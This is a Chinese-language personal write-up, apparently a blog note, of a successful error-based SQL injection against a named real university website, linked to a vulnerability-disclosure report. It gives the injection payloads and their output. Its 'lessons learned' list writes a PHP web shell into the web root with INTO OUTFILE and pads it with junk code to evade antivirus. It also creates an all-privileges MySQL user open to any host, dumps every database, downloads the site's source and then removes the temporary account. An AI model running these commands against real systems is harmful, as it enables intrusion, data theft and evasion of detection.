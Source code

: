 ```yaml
---
title: SQL Injection dce Success
description: SQL Injection dce Success
last_update:
  date: "2025-09-06T08:00:00+08:00"
---
```


## 前言

1. 目標: https://w2.dce.tku.edu.tw/plugins/validationEngine/check_member_id.php?fieldValue=%27

## 測試過程

1. `?fieldValue=%27`

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1
[null,false]
```

2. `fieldValue=%27%20OR%20%271%27%20=%20%271`

```
[null,false]
```

3. `fieldValue=%27%20AND%20updatexml(null,concat(0x7e,version(),0x7e),null)%20AND%20%271%27%20=%20%271`

```
XPATH syntax error: '~10.1.31-MariaDB~'
[null,false]
```

好快，三次就成功用 Error-Based SQLi 提取到資料

接下來請參考 [ZD-2025-01107](https://zeroday.hitcon.org/vulnerability/ZD-2025-01107)

mysqldump，root 使用者只能透過 localhost 連線，python 那個可以再試試看

## 學到的東西

1. 遞迴地列出目錄底下的副檔名分佈: `powershell "Get-ChildItem D:\xampp\htdocs -Recurse | Group-Object Extension | Sort Count -Desc | Select Name,Count"`

```
Name                  Count
----                  -----
.php                  26979
                      13624
.jpg                  12053
.png                   6500
```

2. 遞迴地排除指定副檔名的檔案，並打包成 zip 寫入本機目錄: `powershell "Get-ChildItem D:\xampp\htdocs -Recurse | Where {$_.Extension -notin '.jpg','.png','.gif','.svg','.pdf','.xls','.doc','.ttf','.js','.css','.less','.scss'} | Compress-Archive -Dest D:\xampp\htdocs\core.zip"`

3. 將指定目錄底下的 .php 檔案打包成 zip 寫入本機目錄: `powershell Compress-Archive -Path "D:\xampp\htdocs\*.php" -DestinationPath "D:\xampp\htdocs\php_files.zip"`

4. 使用 curl 下載檔案: `curl --output php_files.zip https://w2.dce.tku.edu.tw/php_files.zip -v`

5. 尋找環境變數底下的執行檔: `where mysql`

6. Windows + XAMPP 的架構，可在 `D:\xampp\mysql\bin` 找到 `mysql.exe` 跟 `mysqldump.exe`

7. `SELECT user()` => `root@localhost`

8. `SELECT @@basedir` => `D:\xampp\mysql`

9. `SELECT @@datadir` => `D:\xampp\mysql\data`

10. UNION 搭配上傳檔案:

```sql
UNION SELECT '<?php system($_GET["cmd"]);?>' INTO OUTFILE 'D:/xampp/htdocs/shell.php'
UNION SELECT '<?php system($_GET[cmd]);?>' INTO OUTFILE 'D:/xampp/htdocs/shell.php'
```

UNION 前後的欄位數量還是得匹配，才會成功執行

11. 一般的防毒軟體都可以偵測到上面兩種 php 檔案（會被歸類到惡意程式），所以可以加一些垃圾程式碼跟註解來混淆

```php
<?php $host = "localhost"; $username = "root"; system($_GET["cmd"]); ?>
```

12. 也可以用 `<?php echo exec($_GET[cmd]);?>`

13. 直接用 CMD 新增 MySQL 使用者: `D:\xampp\mysql\bin\mysql.exe -u root -p"password" -e "CREATE USER 'tempdump'@'%' IDENTIFIED BY 'temp_password'; GRANT ALL ON *.* TO 'tempdump'@'%'; FLUSH PRIVILEGES;"`

- 要記得 -p 後面不能有空格，這樣才不會跳出輸入框
- `-e "SQL Syntax Here; Other SQL Syntax Here;"`
- `'tempdump'@'%'` => `'username'@'hostname'` => 允許該使用者透過任何主機進行連線
- `GRANT ALL ON *.*` => `database.table` => 允許所有 database 底下的所有 table

14. 使用 mysqldump 匯出所有 databases 的資料 as .sql 檔案: `D:\xampp\mysql\bin\mysqldump.exe -u tempdump -p"temp_password" --all-databases > D:\xampp\htdocs\alldb.sql`

15. 刪除臨時帳號: `D:\xampp\mysql\bin\mysql.exe -u root -p"password" -e "DROP USER 'tempdump'@'%'; FLUSH PRIVILEGES;"`

16. CMD 的 ls:

- `dir`
- `dir D:\xampp`

17. CMD 的 rm:

- `del file.php`
- `del D:\xampp\htdocs\file.php`

18. CMD 的 cat:

- `type file.php`
- `type D:\xampp\htdocs\file.php`

19. powershell 感覺必學，功能太強大了

20. CMD 的指令 `systeminfo`

21. CMD 的指令 `ipconfig /all`

22. CMD 的指令 `arp -a` (Address Resolution Protocol)

```
介面: xxx.yy.zzz.40 --- 0x6
  網際網路網址          實體位址               類型
  xxx.yy.zzz.6          aa-bb-cc-dd-ee-ff     動態
  xxx.yy.zzz.8          bb-cc-dd-ee-ff-aa     動態
```
